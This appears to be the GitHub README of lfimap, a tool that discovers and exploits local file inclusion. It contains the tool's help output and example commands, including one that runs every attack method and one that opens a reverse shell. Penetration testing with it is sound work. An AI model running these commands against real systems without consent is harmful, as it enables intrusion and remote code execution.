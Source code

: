 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Generic blind and union based sql injection testing
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option for automated reverse shell attack upon code execution detection

### Documentation
- [Installation](https://github.com/trhacknon/lfimap/wiki/Installation)
- [Usage](https://github.com/trhacknon/lfimap/wiki)

### -h, --help
```                  

usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] [--useragent <agent>]
                 [--referer <referer>] [--param <name>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli]
                 [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] [-wT <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]                       Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]                   Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>                    Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>                   Do HTTP POST value test. Ex: "param=PWN"
  -H <header>                    Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>                     Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>            Specify HTTP user agent
  --referer <referer>            Specify HTTP referer
  --param <name>                 Specify different test parameter value
  --no-stop                      Don't stop using same method upon findings
                                                                                                   
ATTACK TECHNIQUE:                                                                                  
  -f, --filter                   Attack using filter:// wrapper                                    
  -i, --input                    Attack using input:// wrapper                                     
  -d, --data                     Attack using data:// wrapper                                      
  -e, --expect                   Attack using expect:// wrapper                                    
  -t, --trunc                    Attack using path truncation with wordlist (default "short.txt")  
  -r, --rfi                      Attack using remote file inclusion                                
  -c, --cmd                      Attack using command injection                                    
  --file                         Attack using file:// wrapper                                      
  --xss                          Test for reflected XSS                                            
  --sqli                         Test for SQL injection                                            
  --info                         Test for basic information disclosures                            
  -a, --all                      Use all available methods to attack                               
                                                                                                   
PAYLOAD OPTIONS:                                                                                   
  -x, --exploit                  Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>                Specify local ip address for reverse connection                   
  --lport <lport>                Specify local port number for reverse connection                  

WORDLIST OPTIONS:
  -wT <path>                     Specify wordlist for truncation test
  -wC <path>                     Specify wordlist for command injection test

OTHER:
  -v, --verbose                  Print more detailed output when performing attacks
  -h, --help                     Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
